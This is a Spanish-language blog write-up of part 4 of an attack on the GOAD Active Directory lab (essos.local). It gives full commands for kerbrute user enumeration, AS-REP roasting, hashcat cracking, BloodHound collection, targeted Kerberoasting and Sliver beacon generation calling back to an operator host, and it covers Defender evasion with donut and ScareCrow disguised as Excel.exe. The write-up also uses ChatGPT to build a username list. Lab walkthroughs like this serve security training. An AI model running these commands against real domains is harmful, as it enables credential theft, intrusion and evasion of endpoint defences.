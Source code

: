 ```yaml
---
layout: single
title: Game of Active Directory - Parte 4
excerpt: "En esta cuarta parte vamos a atacar el dominio essos.local. Conseguiremos credenciales con asreproasting, para luego ver con bloodhound que tenemos el rol GenericAll sobre otra cuenta, y nos aprovecharemos de eso para escalar privilegios. Finalmente obtendremos un beacon de sliver evadiendo el defender."
date: 2024-04-24
classes: wide
header:
  teaser: /assets/images/Goad/logo_GOAD.jpg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```


![](/assets/images/Goad/logo_GOAD.jpg)


En esta cuarta parte vamos a atacar el dominio essos.local. Conseguiremos credenciales con asreproasting, para luego ver con bloodhound que tenemos el rol GenericAll sobre otra cuenta, y nos aprovecharemos de eso para escalar privilegios. Finalmente obtendremos un beacon de sliver evadiendo el defender.

Sabemos que este dominio tiene una máquina con la ip 192.168.56.23 y un controlador de dominio en la ip 192.168.56.12, así que vamos a intentar conseguir un listado de usuarios.

Le podemos pedir a chatgpt que nos cree una lista con personajes de juego de tronos en el formato nombre.apellido para luego usar alguna herramienta que nos diga cuales de estos son válidos.

Después de pedirle varias veces que nos cree una lista más larga nos da una lista con 50 candidatos.


![](/assets/images/Goad/chatgpt.jpg)


Ahora creamos un archivo con la lista de usuarios y probamos con kerbrute los que son válidos.

```bash
kerbrute userenum --domain "essos.local" --dc 192.168.56.12 users_chatgpt.txt
```


![](/assets/images/Goad/kerbrute.jpg)


Y vemos que hay 5 usuarios válidos. Ahora podemos probar con la vulnerabilidad asreproasting para ver si conseguimos alguna credencial.

```bash
GetNPUsers.py essos.local/ -no-pass -usersfile users_essos.txt
```

![](/assets/images/Goad/missandei.jpg)


Y conseguimos el hash del usuario misandei. Vamos a intentar crackearlo con hashcat.


```bash
hashcat -m 18200 asreproastable.missandei /usr/share/wordlists/rockyou.txt
```

![](/assets/images/Goad/hashcat_missandei.jpg)


Ya tenemos credenciales válidas en el dominio `misandei:fr3edom`


Ahora usaremos bloodhound para recolectar información útil del dominio y buscar vulnerabilidades.


```bash
bloodhound.py --zip -c All -d "essos.local" -u "missandei" -p "fr3edom" -dc "meereen.essos.local" -ns "192.168.56.12"
```

![](/assets/images/Goad/bloodhound.jpg)


Arrancamos neo4j y bloodhound y subimos el archivo zip que nos ha generado el comando anterior.


![](/assets/images/Goad/neo4j.jpg)


En bloodhound buscamos el usuario missandei y pinchamos en outbound object control/First Degree Object Control y vemos que tiene el rol GenericAll sobre el usuario khal.drogo. Al disponer de esta ACL tenemos control sobre este usuario y podemos incluso cambiarle la contraseña.


![](/assets/images/Goad/bloodhound_khal.jpg)


Podríamos cambiar la contraseña del usuario khal.drogo, pero esto llamaría mucho la atención y el usuario se daría cuenta, con lo cual vamos a utilizar la herramienta que nos sugiere bloodhound, targetedkerberoast.py, que es un script de Python que puede, como muchos otros (por ejemplo, GetUserSPNs.py), imprimir hashes "kerberoast" para cuentas de usuario que tienen un SPN configurado. **Esta herramienta trae la siguiente característica adicional: para cada usuario sin SPN, intenta establecer uno (abuso de un permiso de escritura en el atributo servicePrincipalName), imprimir el hash "kerberoast" y eliminar el SPN temporal establecido para esa operación. Esto se llama Kerberoasting dirigido. Esta herramienta se puede utilizar contra todos los usuarios de un dominio, o se puede proporcionar en una lista, o un usuario proporcionado en la CLI.**


![](/assets/images/Goad/targeted.jpg)


![](/assets/images/Goad/targetedkerberoast.jpg)


Y nos da dos hashes, el de khal.drogo y el de sql_svc.


De nuevo con hashcat intentamos crackearlos.


```bash
hashcat -m 13100 -a 0 Kerberoastables.txt /usr/share/wordlists/rockyou.txt
```


![](/assets/images/Goad/hashcat_khal.jpg)



Y conseguimos otras credenciales `khal.drogo:horse`


Validamos la credencial con NetExec y vemos que khal.drogo tiene permisos de administrador en la 192.168.56.23 (BRAAVOS), y que puede conectarse por winrm.


![](/assets/images/Goad/nxc_khal.jpg)


Nos conectamos con evil-winrm a la máquina, pero ahora queremos conseguir un beacon de sliver para tener el equipo en nuestro command and control. Podríamos usar el comando utilizado en los artículos anteriores, pero vamos a hacerlo de otra forma. Esta vez crearemos un ejecutable desde sliver y lo trataremos para que sea capaz de evadir el defender.

Para ello, desde sliver, creamos un listener con `https --lport 8443` y generamos un ejecutable con `generate beacon --seconds 5 --jitter 3 --os windows --arch amd64 --format EXECUTABLE --http 192.168.56.1:8443 --name goad --save /tmp/beacon.exe -G`

![](/assets/images/Goad/generate.jpg)

Si subimos el ejecutable directamente a la máquina y lo ejecutamos nos lo va a pillar el defender, así que vamos a utilizar un par de herramientas para evadirlo.

Primero utilizaremos [donut](https://github.com/TheWover/donut), y luego [ScareCrow](https://github.com/Tylous/ScareCrow).

```bash
./donut -i ../beacon.exe -a x64 -o beacon.bin
```

```bash
./ScareCrow -I ../beacon.bin --domain microsoft.com
```

Esto nos genera un ejecutable llamado Excel.exe que es el que subiremos a la máquina a través de nuestra sesión con evil-winrm, para finalmente conseguir nuestro beacon de sliver evadiendo el defender.


![](/assets/images/Goad/donut.jpg)

![](/assets/images/Goad/scarecrow.jpg)

![](/assets/images/Goad/excel.jpg)

![](/assets/images/Goad/beacon_khal.jpg)

